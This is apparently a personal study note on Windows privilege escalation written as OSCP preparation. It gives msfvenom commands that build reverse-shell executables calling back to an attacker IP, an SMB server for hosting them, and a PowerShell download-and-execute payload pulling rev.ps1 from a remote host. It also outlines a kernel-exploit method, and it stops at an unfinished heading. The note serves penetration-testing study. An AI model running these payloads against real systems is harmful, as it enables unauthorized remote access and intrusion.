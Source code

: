 # Windows Escalation Paths
---------------------------

This document captures in my preparation journey various Escalation Paths in Windows to get to Authority \ System.  
A couple of golden resources that you need to be aware of and should be referenced frequently 
- [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Sushant's Blog](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)


### Reverse Shell - General Method
--------------------------------------

1. Generate a reverse shell executable through any standard payload 

> **msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe**


As a next step, host this through a simple Python Server or through **SMB share**. You know Python server, here is the command for SMB share

> **sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .**

Note that the SMB server has to be set up in the same folder where the reverse.exe is (just like python server)

On the Target Windows machine you need to run the following command

> **copy \\\\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe**

Replace 10.10.10.10 with whatever IP the attach machine has.

And then run the reverse.exe file on the victim machine



2. Generating a Powershell session by invoking Nishang's Reverse Shell into the memory directly

In this scenario we create a reverse shell in 2 steps. The payload generated via MSFVENOM launches a CMD.EXE with a command to launch PowerShell that invokes IEX and connects to a hosting server (Python Server) the necessary Reverse Shell File. It invokes the Reverse Shell into memory and is thus executed directly and within script one can pass the reverse shell IP address & port and listen on it. 

Here is how we do it. 

> msfvenom -p windows/exec CMD="powershell \"iex(New-Object Net.WebClient).downloadString('http://10.10.14.21/rev.ps1')\"" -o reverse_pshell.exe







### Escalation Path 1 - Kernel Exploits
----------------------------------------

Kernel exploits present a very powerful way to escalate your privileges as it works directly with a kernel. Normally, you run a binary/executable and that should give you some kind of escalation of privileges on the box. 

**Resources**
-------------
https://github.com/SecWiki/windows-kernel-exploits

**Methodology**
---------------
1. Get some kind of a shell as part of initial foothold. This will depend on how you intend to escalate
	- Metasploit - For this you can use a payload of **windows/meterpreter/reverse_tcp** and run a handler to catch the shell
	- Manual - For this you can use a payload of **windows/shell_reverse_tcp** and run a NETCAT listener to catch the shell

2. Do local enumeration with the obtained shell 

3. Check on Exploit suggester to see if Kernel exploits are available. In case if they are go to the resource mentioned in the link.

4. See the methodology to get an escalated session and escalate privileges




### Escalation Path 2 - 